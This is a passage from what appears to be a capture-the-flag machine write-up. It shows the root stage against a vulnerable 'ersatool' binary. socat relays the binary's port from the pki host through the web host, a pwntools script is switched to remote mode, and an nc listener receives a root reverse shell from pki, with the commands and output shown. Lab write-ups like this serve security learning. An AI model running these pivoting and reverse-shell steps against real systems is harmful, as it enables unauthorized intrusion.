 On pki:

    
    
    www-data@pki:/tmp$ ./socat TCP-LISTEN:9001,reuseaddr,fork EXEC:ersatool
    

On web:

    
    
    www-data@web:/tmp$ ./socat tcp-listen:9001,reuseaddr,fork tcp:pki:9001
    

Now from my host, I can connect to the running binary:

    
    
    oxdf@parrot$ nc 172.20.0.10 9001
    # print
    print->CN=0xdf
    0xdf[!] ERR reading /opt/easyrsa/clients/0xdf.ovpn!
    
    print->CN=
    

At the top of the script, I’ll add:

    
    
    if args['REMOTE']:
        p = remote('172.20.0.10', 9001)
    else:
        p = process('./ersatool')
    

With PwnTools, now if I add `REMOTE` as an arg, it will go remote, and
otherwise local.

One last snag was that `/dev/shm` is mounted `noexec` on pki, so I can execute
out of there. I’ll switch to `/tmp` in the script by changing that string.

I’ll open a third shell to web (one has www-data shell from pki which has
`socat` serving `ersatool`, one has `socat` tunneling from my host to pki),
and start `nc` listening on 4433.

Locally, I’ll run the script to target remove. It leaks the address, and then
hangs:

    
    
    oxdf@parrot$ python3 root.py REMOTE
    [+] Opening connection to 172.20.0.10 on port 9001: Done
    [+] Leaked EXT address:          0x000056253b35215f
    [+] Calculated ERSA_DIR address: 0x000056253b3520f0
    

At the listener on web, there’s a shell:

    
    
    www-data@web:~$ /tmp/nc -lnvp 4433
    Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
    Ncat: Listening on :::4433
    Ncat: Listening on 0.0.0.0:4433
    Ncat: Connection from 192.168.254.3.
    Ncat: Connection from 192.168.254.3:50426.
    root@pki:/tmp# id
    uid=0(root) gid=33(www-data) groups=33(www-data)
    